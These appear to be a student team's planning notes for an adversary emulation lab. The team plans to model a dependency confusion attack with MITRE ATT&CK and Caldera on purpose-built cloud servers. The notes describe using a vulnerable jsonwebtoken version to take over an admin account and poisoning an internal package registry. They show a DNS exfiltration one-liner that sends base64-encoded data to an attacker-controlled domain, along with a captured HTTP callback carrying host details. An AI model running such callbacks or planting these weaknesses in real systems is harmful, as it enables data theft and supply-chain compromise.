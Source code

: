 # Notes and Initial Research

Notes template
```
Resources link:
Idea:
Notes:
```

Please try to stick to the above notes contribution template all though it's not necessary. Since we are in different timezones and remote, it's best to have organized notes.

I have protected the main branch, so any changes will have to go through a PR merge, and before every PR merge, we all (at least 2) will have to review it.

When committing please ensure to add an apt commit message.

## Scenario
This project is intended to apply the MITRE ATT&CK framework and tools to map a cyber incident and then use the Caldera tool to complete an emulation plan. Included into team's tasks is the deployment in the Cloud of a mock-up scenario that represents the system compromised in the cyberincident studied. 

As a result of the project, with the Adversary Emulation Plan is needed to elaborate Threat Report of the incident analized (including a STIX2.1 JSON representation).  


**Meeting Notes, Feb4**  
[ ] Dev and Attacker Env in separate virtual network (all machines are to be assumed Linux machines, unless mentioned explicitly)  
[ ] Domain name (.me)  
[ ] Terraform env setup  
[ ] Caldera tool information

## Dev Env

Resource Link: https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

Idea: Build an infrastructure for an organization that heavily relies on a JavaScript environment, which can be utilized for implementing Dependency Confusion.

Notes: 

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

### Dev-Server-1

```bash
Node: v18.11.0
npm: v8.19.2
pm2: 5.2.2

# The versions can change depending on the time of implementation
```

This would be our ginny pig application, which would have standard features of a generic web-application. Ex: Authentication and messaging (static)

The authentication will be handled using a vulnerable JWT tokens. We plan on using `jsonwebtoken v0.4.0` which will be vulnerable to token signing vulnerability ([CVE-2015-9235](https://nvd.nist.gov/vuln/detail/CVE-2015-9235)). 

```diff 
- Critical issue 1 (Account Takeover)
+ CVSS: 3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

> **Note**  
> STEP1: This will allows us to do perform an account takeover of the admin account, from here we will leak about the source code and name of a private package called: \<private-package-name>



### Dev-Server-2

```bash
Node: v18.11.0
npm: v8.19.2
pm2: v5.2.2
verdaccio: v5.20.1
# The versions can change depending on the time of implementation
```

This will be the internal package managing service like NPM. We will be using [Verdaccio](https://www.npmjs.com/package/verdaccio) for this server.

This is where the internal package will be hosted.

> When the attack will unfold, it will also poison this repository with our malicious package.

```diff 
- High/Critical issue 2
+ CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
# depends based on the amount of compromise a company incurs 
```

> **Note**  
> STEP2: This will allows us to get back a call back over the DNS and/or HTTP requests.


## Attacker Env

This is a separate env from that of Dev, and will require us to `2` server (or `1`) and a domain name get to call backs on.

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

Domain name : 
Can be bought from Namecheap for free using the .edu account.

### Attacker-Server-1 

DNS server which will receive call backs based on the domain look ups
(We can use something like: [Bind9](https://www.isc.org/bind/))

Ex of a DNS callback to my own hacker-server
```bash
nslookup $(echo -n "Capstone-test" | openssl base64).X-hacker-X-hackerone.me
Server:         XXXX:XXX:feed::1
Address:        XXXX:XXX:feed::1#53

Non-authoritative answer:
Name:   Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me
Address: <redacted>

### As received on my hacker-server

03-Feb-2023 10:49:16.277 queries: info: client @0x7f61f402a880 <IP-Address>#17232 (Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me): query: Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me IN A -E(0)D (IP-Address)
```

> We are encoding the output with base-64 because of character restrictions for domain-name.

### Attacker-server-2 (Optional)

Instead of having a dedicated server, we can also have a web-hook to receive HTTP call backs:

```h
The path: <path>, Version: Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux ID: uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),133(scanner),141(kaboxer), IP: <redacted>, Internal IP: 10.0.0.20 172.17.0.1 2601:197:801:2040::7aa 2601:197:801:2040:4d98:e828:740e:c72c 2601:197:801:2040:20c:29ff:febb:36a5 , Tag: altl
```

or we can use [ngrok](https://ngrok.com/) to receive call-backs on our system which can be on our own computers.

I have penned down a very simple overview of the attack here: (please ignore my shabby handwriting)
[attack-explained](./public/docs/attack-explained.pdf)


